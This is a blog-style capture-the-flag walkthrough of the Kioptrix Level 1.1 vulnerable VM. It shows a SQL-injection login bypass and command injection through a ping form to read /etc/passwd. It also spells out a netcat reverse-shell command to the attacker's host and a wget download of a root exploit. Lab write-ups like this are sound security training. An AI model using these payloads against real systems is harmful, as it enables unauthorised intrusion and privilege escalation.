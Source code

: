 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

Time to move on to the next challenge labled "Kioptrix 1.1". The first step is to find the target machines IP address. The attacker uses netdiscover to find the new ip.  

![Image description](/images/kioptrix1.2.1.png)

The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan to see which ports are open and what services are running. 

![Image description](/images/kioptrix1.2.2.png)

Right away he noticed multiple interesting ports to explore. He decided to start with port 80. Port 80 is commonly used for webhosting so he opened up his web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. The attacker finds a login form when he lands on the home page. It appears to be used for administrative purposes. 

![Image description](/images/kioptrix1.2.3.png)

He was able to log in with a simple SQL injection. 

Login: Admin
Password: ' OR '1'='1

The attacker is brought to another page that allows the use to ping a machine on the network. I wonder if he can run other commands from the same text entry box? He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

Surprisingly, he was able to display the contents of /etc/passwd for later use. This means that further code could possible be entered in this form. The attacker still needed to obtain root. He decided to see if he could obtain a shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

The attacker set up netcat on his host machine to listen for any connections on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform. He was able to obtain a shell. However, the attacker still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

He found a local root exploit but the attacker still needed to download the exploit remotely in Kioptrix. He set up a python simple server to host the exploit.

![Image description](/images/kioptrix1.2.13.png)

Once the exploit was hosted, the attacker simply wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

The attacker was then able to  compile the exploit and run it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

